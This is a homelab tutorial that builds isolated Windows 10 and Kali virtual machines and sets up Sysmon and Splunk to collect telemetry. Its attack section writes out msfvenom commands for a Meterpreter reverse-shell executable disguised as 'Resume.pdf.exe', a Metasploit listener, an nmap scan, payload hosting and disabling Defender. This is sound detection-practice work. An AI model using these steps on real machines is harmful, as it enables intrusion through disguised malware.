# Building a basic homelab

## 1. Download and install VirtualBox

Go to https://www.virtualbox.org/wiki/Downloads and click on Windows hosts.



While is downloading, go ahead and check out `SHA256 checksums` to check that the downloaded file wheter or not has been altered. To do that, go to the `Downloads` folder (or whatever is the folder where you downloaded the installer) open a PowerShell console and type:

```powershell
    Get-FileHash .\VirtualBox-7.1.10-169112-Win.exe  
```

This will return a SHA256 hash, we copy it, return to the `SHA256 checksums` page in the VirtualBox websaite and check if the hash matches some of the items of the list (Ctrl + F and paste the hash).

Now we know that the file in transit was not altered whatsoever. We can proceed with the installation of Virtual Box, just follow the instructions of the wizard and you should be fine.

## 2. Install Windows 10

Go to <a href="https://www.microsoft.com/en-ca/software-download/windows10">this link</a> and scroll to the `Create Windows 10 installation media` and click `Download now`. This will download a media creation tolls, which will help us create the Windows 10 image file.

Once we run the installer, on the part `What do you want to do?` screen, click on `Create installation media` and then select `ISO file`.



After downloading the Windows 10 ISO file, we go to VirtualBox and create our first virtual machine.

Click on `New` and you will be prompted with a Create Virtual Machine wizard. We are naming this machine `windows10`, select the ISO image and check the box `Skip unattended installation`, that way we can install the operating system manually. 

Click on Next and we will see the virtual machine specifications.



Do notice that this will be relying on your computers specifications, here I will assign 2048 MB as Base Memory and 1 CPU in Processors.



On Virtual Hard Disk I will leave it at 50 GB and hit next.



Then, the wizard will show you a summary of what your settings are for this virtual machine, if you are good to go, click on finish. 

To power on our windows 10 machine, just click `Start`. We should be able to see the Windows 10 setup screen.



We click on Install and once you are presented with the Activate Windows screen, click on `I don't have a product key` and in the options select Windows 10 Pro. Click Next, accept the license terms.

In the next screen, select Custom install Windows only, select the drive and click Next and then Windows 10 should be installing in the background.

## 3. Install Kali Linux

First, navigate to the Kali website https://www.kali.org, click in download and then click on the `Pre-built VMs` menu item. I'll be downloading the 64-bit version of Kali but you should download the option in accordance with your system architecture.


A 7-zip file will be downloaded, so you will need 7-Zip in order to decompress the file. Once decompressed, look for the file with the `vbox` extension and doble click it. The Kali Linux should be automatically imported into Virtual Box.
Now you can start the Kali virtual machine. Note: The default credentials of the Kali Linux machine are `kali/kali`.



### Important:

In order to prevent your host machine to get infected, first you need to properly configure the virtual machines.

## 4. Configure the network:

When selecting any of the virtual machines we have the option to select `Settings`, once there, go to `Network`, here we will find different network options:



### NAT (Default):

This option creates a separate network using the host network adapter and will asign it to each virtual machine (example: if we have three virtual machines, they will have three different networks).

### NAT Network:

Similar to NAT, but instead of having three separate networks, the virtual machines will all mesh into one network. 

### Bridged adapter:

This will make the virtual machines act as physical machines, meaning they will be on the same network as the host machine (Do not execute malware analysis using this mode, because this machines will have access to the internet and the LAN).

### Host-Only adapter:

These virtual machines are only accessible to the host machine, they will not have access to the internet nor will have access to the LAN.

### Internal network:

This is an ideal option to use when performing malware analysis, as this option puts the virtual machine into their own network. You will have to statically assing each and every one of the virtual machines and IPs. They will not have access to the internet and they cannot access the LAN.

### Not attached:

The network addapter is not attached.

<hr />

Depending on the kind of practices we want to do in our virtual machines, the configurations will vary: 

For just testing tools we can leave the machines network configured by default, using NAT. 

For more complicated scenarios (like analyzing malware) we need to perform better configurations to keep our host safe: we need to change our network configuration to `Internal network` and name that network. To do that, we click on the settings of the virtual machine, go to Network and in `Attached to:` select `Internal network`, after that, name your network.



After chaning this configuration in both Windows 10 and Kali Linux machines, they should be in the same network, but we still need to stastically assign the IP address on both.

First, let's do it with the Windows 10 machine. Initiate the machine, right click in the globe icon in the taskbar and select `Open network and internet settings`.



In the next windows, scroll down until you find `Change adapter options` and click on it.



Next, right-click the Ethernet icon, click on `Properties` and look for the checkbox `Internet Protocol Version 4`.



Select it and click in the `Properties` button.
By default it will be setted to DHCP, however we will clik on `Use the following IP address`. As for the IP address I will use `192.168.20.10` and I'll leave the subnet mask in `255.255.255.0` and the Default gateway as it is and the DNS in blank. 
If we open a Command prompt and run `ipconfig` we should see our new IP address.



Now is the turn of the Kali machine. Locate the ethernet icon located at the top right corner, right click on it and select `Edit connections`. 



Select `Wired connection 1`, click on the gear icon at the bottom and in the next window select the `IPv4 Settings` tab. Once there, change the Method from `Automatic (DHCP)` to `Manual`. hen inside Addresses click on `Add` and enter your IP address, in my case I'm using `192.168.20.11`, Netmask at `24`, and Gateway, DNS serers and Search domains in blank.



To check the new IP address, right click anywhere in the desktop and open a terminal.



To check the connectivity between the two machines, we will ping our Kali machine on Windows, running `ping 192.168.20.11` from the Windows command line.



Now the two machines have connectivity, take a snapshot of both of them before starting playing around.

## 5. Install Sysmon in Windows 10:

Sysmon (System monitor) is a Microsoft tool, part of the Sysinternals Suite, that allows to log detailed system activity to the Windows Event Log. 

To install it, first, run the Windows 10 virtual machine, open a web browser and go to the [Sysmon download page](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) and click in `Download Sysmon`.



Next, navigate to [this page](https://github.com/olafhartong/sysmon-modular/blob/master/sysmonconfig.xml) and download the file `sysmonconfig.xml`.

Once everything is downloaded, extract the sysmon compressed file and move the `sysmonconfig.xml` file inside of the decompressed folder.
Inside of this folder, open a Powershell console with administrator privileges.



Now, in the Powershell console, type `.\Sysmon64.exe -i .\sysmonconfig.xml` and hit Enter to install Sysmon. To check if it's installed, go to windows Event Viewer and access to `Applications and services logs > Microsoft > Windows` and you should see a `Sysmon` folder with an `Operational` file inside, if we click it, we'll see a lot of telemetry about the system that will help us.


## 6. Install Splunk in Windows 10:

To install Splunk, just navigate to the [Splunk website](https://www.splunk.com/) and download `Splunk enterprise`. You'll need to create an account for it.
Run the installer and when prompt about which type of installation select `Local System`, create a username and a password and click in Install.
Once installed, open your browser and Splunk should be installed in your `localhost` in the `8000` port.

## 7. Establish a reverse TCP shell in the attacker machine:

As a first step, open a terminal in the Kali machine and run `ifconfig` or `ip a` and take note of your IP address, as it will be needed to build the malware.

Next, run `nmap -A 192.168.20.10 -Pn`, (replace `192.168.20.10` with the IP address of the Windows machine if it's different in your case). Running this command, nmap will start scanning all the ports and indentifying any of them that are open. 

```sh
    # Note: 

    nmap -A 192.168.20.10 -Pn

    # -A: Aggressive scan mode. This enables OS detection, version detection, etc.
    # -Pn: Tells Nmap not to ping the host first to see if it's online. 
```

After Nmap finishes the scan, we notice that the port 3389 is open:



Now it's time to create a basic malware using Msfvenom and Meterpreter reverse shell as payload (to get a list of the payload run `msfvenom -l payloads`), I will use `windows/x64/meterpreter_reverse_tcp`.

Run this command:

```sh
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe` 
```

What this command is doing is generate malware using Meterpreter's reverse TCP payload, which is instructed to connect back to our attacker machine, based in the `lhost` (192.168.20.11 in my case) and the `port` (the default port for meterpreter is `4444` but you can customize it). The file format will be an .exe as we specified and the file name will be `Resume.pdf.exe`.



To check the file details just run `file Resume.pdf.exe`.

Now let's open a handler to listen in on the port that we configured in the malware, to do that open up Metasploit by typing `msfconsole`. Once in the console, we'll use the multi-handler by running `use exploit/multi/handler`, after that we should be in the exploit itself.
Type `options` to see possible configurations:



Notice that the payload options are now set to `generic/shell_reverse_tcp`. Wee need to change this payload to be the same payload that we used configuring our Msfvenom malware., to do that run `set payload windows/x64/meterpreter_reverse_tcp`. Now we need to configure the lhost of the attacker machine, for that run `set lhost 192.168.20.11`.
To check this changes, just run `options` again.

Now, to start the handler type `exploit`:



The attacker machine is now listening and waiting for the victim machine to execute the malware.

Now we need to set up a quick HTTP server on our Kali machine, so our victim machine can download the malware. In this case I'll do it using Python. Open a new terminal in the same directory of the malware and tpe `python3 -m http.server 9999` (Or use another port that is not in use). 



This allow our victim machine to access the attacker machine an start downloading malware from there.

## 8. Execute the malware in the victim machine:

First, open up the Windows 10 machine and head over to Security Center, under Virus & threat protection click on Manage settings, once there, turn-off Real-time protection.



Now, open a web browser and type in the IP of the Kali machine port and the port you establish for the connection, there, you'll see the file created ready to download it.



Once downloaded, open the file, and when Windows pop-up a security screen click on `Run anyway`. 
Now the malware has been executed. To check it, open a Command prompt with administrator privileges and type `netstat -anob`. We will scroll and look for an established connection to the attacker machine, in my case, here it is:



If we open the Task manager, go to the Details tab and you can check the execution of the Resume.pdf.exe malware running by its PID:



Now let's head back to the terminal of the attacker machine and type a few commands to generate telemetry: Run `shell`, `net user`, `net localgroup` and `ipconfig`. 

## 9. Check telemetry with Splunk:

Back in our Windows machine, first, we need to make that Splunk is configured to ingest Sysmon logs. In order to do that, go to the installation directory of Splunk (typically in inside Program files) and follow this route `etc > system > local` and you should see and `inputs.conf` file, if it's not there just copy it from `etc > system > default`.



Edit the `inputs.conf` file and make sure Sysmon is configured like in the image:



Now, make sure to restart the Splunkd Service.



We are basically telling Splunk to look into `Microsoft-Windows-Sysmon/Operational`, take all the events and feed it into `index = endpoint`. So once in Splunk we need to specify to have an `index` named `endpoint`. , otherwise, splunk would not what to do with all the Sysmon events.
In Splunk, go to `Settings` and then `Indexes` and create a new index called `endpoint`, make sure the endpoint exists and is not disabled. 



Now go to `Apps` and then `Search & Reporting` and in the searchbox type `index=endpoint` and you will see that a lot of data has been ingested Note that Splunk is not automatically parsing Sysmon, so to do it, we need to install an App called Splunk Add-on for Sysmon).



So now we started generating telemetry and we can start playing with Splunk.